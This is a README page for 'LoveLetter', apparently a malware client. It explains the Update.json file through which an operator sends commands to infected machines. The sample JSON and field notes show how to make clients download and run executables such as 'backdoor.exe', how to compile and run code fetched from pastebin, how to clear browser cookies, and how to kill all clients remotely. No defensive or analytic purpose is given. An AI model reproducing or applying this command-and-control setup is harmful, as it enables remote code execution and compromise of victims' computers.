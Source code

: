 <div>
  <img width="150" align="right" src="../Repo/Images/2.gif" alt="LoveLetter"/>
  <br>
  <h1>⚙️ Configuration</h1>
  <p>Update.json is being fetched by the client to check for any server commands. You can update it to your liking.</p>
</div>

## Sample 
```json
{
  "updateVersion": 0,
  "letterVersion": 0.1,
  "downloadLink": "http://0.0.0.0/new_tll_update.exe",
  "killSelf": false,
  "clearCookies": false,
  "runnables": [
    {
      "item1": "http://0.0.0.0/backdoor.exe",
      "item2": 0.1
    }
  ],
  "snippets": [
    {
      "item1": "https://pastebin.com/raw/cBnRs3v7",
      "item2": 0.1
    }
  ]
}
```

## To be written...
> - Update Version ```updateVersion```

The version of the Update.json, always increment this whenever you updated the file, else the letter wont bother to load the json if the value is the same as the last.

> - Letter Version ```letterVersion```

The current latest version of the letter, increment this if you want the letter to download and execute ```downloadLink```.

> - Download Link ```downloadLink```

Direct download link to the newest executable.

> - Kill Self ```killSelf```

Put this to true whenever you want to remotely switch of all letters.

> - Clear Cookies ```clearCookies```

If true, it will clear all cookies and cache of ~~supported~~ popular browsers.

> - Runnables ```runnables```

Contains direct links and versions of executables to be downloaded and executed. Whenever an executable is updated please increment ```item2``` (it's named that way due to how Tuples behave in C#) doing so will trigger the letter to redownload the executable, else ignored. Ex.

```json
  "runnables": [
    {
      "item1": "http://0.0.0.0/backdoor.exe", // direct link to download
      "item2": 2.0 //version
    },
    {
      "item1": "http://0.0.0.0/evil_program.png", // extensions dont matter, it will be ran as executables anyways
      "item2": 0.1
    }
```

> - Snippets ```snippets```

Direct links to any text files that will be compiled as executables and ran. Ex.

```json
 "snippets": [
    {
      "item1": "https://pastebin.com/raw/cBnRs3v7", // the text inside this bin will be compiled
      "item2": 0.1
    },
    
    {
      "item1": "https://your-link-to-source-code.com/not-evil.txt",
      "item2": 0.1
    }
```

Goodluck 💖